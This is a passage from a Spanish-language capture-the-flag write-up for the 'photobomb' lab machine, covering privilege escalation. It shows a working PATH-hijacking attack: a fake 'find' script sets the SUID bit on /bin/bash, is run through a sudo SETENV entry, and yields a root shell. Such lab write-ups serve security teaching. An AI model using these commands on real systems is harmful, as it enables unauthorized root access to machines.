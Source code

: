 ## Privilege Escalation

* * *

Empezamos con una enumeración básica del sistema como usuarios `wizard`, y rápidamente listando los comandos, con sus respectivos permisos, que podemos ejecutar `sudo -l` encontramos lo siguiente:

```console
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Obervamos que podemos ejecutar el binario `/opt/cleanup.sh` como el usuario `root` y se asigna los tags `SETENV` **(sirve para asignar variables de entorno)** y `NOPASSWD` **(ejecutar el comando sin requerir una contraseña)**. Veamos el contenido del archivo:

> file: `/opt/cleanup.sh`

```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Lo que hace el script es (1) ejecutar el archivo _/opt/.bashrc_, él cual es un script con configuraciones respecto a la sessión de la terminal cuando un usuario se logea. (2) Luego limpia los logs de la web que anteriormente vulneramos y (3) por último vemos algo interesante, se aplica una búsqueda con el comando `find` sin usar su ruta absoluta

Inmediatamente al observar esto se nos viene a la mente la vulnerabilidad **Path Hijacking (secuestro de rutas)** que nos permite secuestrar las rutas habituales que se definen en la variable de entorno **PATH** y asignar nuestras propias rutas junto con nuestros archivos maliciosos

Entonces lo que podemos hacer es crearnos un archivo también llamado `find` en una ruta determinada (/tmp/.10.1014.155/find) y con el tag `SETENV` agregar a la variable de entorno `PATH` nuestra ruta donde se encuentra nuestro archivo malicioso para luego ejecutarlo, conseguir la `shell` como `root` y la flag:

```console
wizard@photobomb:~/photobomb$ mkdir /tmp/.10.10.14.155
wizard@photobomb:~/photobomb$ cat >> /tmp/.10.10.14.155/find
#!/bin/bash

chmod u+s /bin/bash
wizard@photobomb:~/photobomb$ cat /tmp/.10.10.14.155/find 
wizard@photobomb:~/photobomb$ chmod +x /tmp/.10.10.14.155/find 
wizard@photobomb:~/photobomb$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:~/photobomb$ sudo PATH=/tmp/.10.10.14.155:$PATH /opt/cleanup.sh
wizard@photobomb:~/photobomb$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
wizard@photobomb:~/photobomb$ bash -p
bash-5.0# whoami
```